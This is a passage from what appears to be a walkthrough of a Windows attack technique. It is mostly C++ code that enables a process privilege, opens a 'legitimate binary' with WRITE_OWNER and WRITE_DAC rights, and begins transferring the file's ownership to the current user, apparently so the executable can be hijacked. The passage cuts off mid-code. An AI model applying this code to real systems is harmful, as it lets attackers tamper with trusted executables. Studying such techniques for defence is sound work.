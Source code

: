```cpp
  "failed to enable %s :(\n", priv);
  return res;
}
```

As you can see, this function is used to enable a specified privilege for the current process.    


Then, opens the legitimate binary with the required access rights (`WRITE_OWNER` and `WRITE_DAC`):    

```cpp
HANDLE hFile = CreateFileA((LPCSTR)legitApp, WRITE_OWNER | WRITE_DAC, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

Then get token information:    

```cpp
// obtain the SID for the current user
HANDLE hToken;
DWORD dwSize = 0;
PTOKEN_USER pTokenUser = NULL;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;
}
printf("open process token: ok\n");

// get the required size for the token information
GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("allocate memory token info: ok\n");

// get the token information
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("get token info: ok\n");
```

At the next step we need to change legitimate binary's ownership to current user:    

```cpp
// initialize a security descriptor
SECURITY_DESCRIPTOR sd;
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("init security descriptor: ok\n");

// set the owner in the security descriptor
if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
```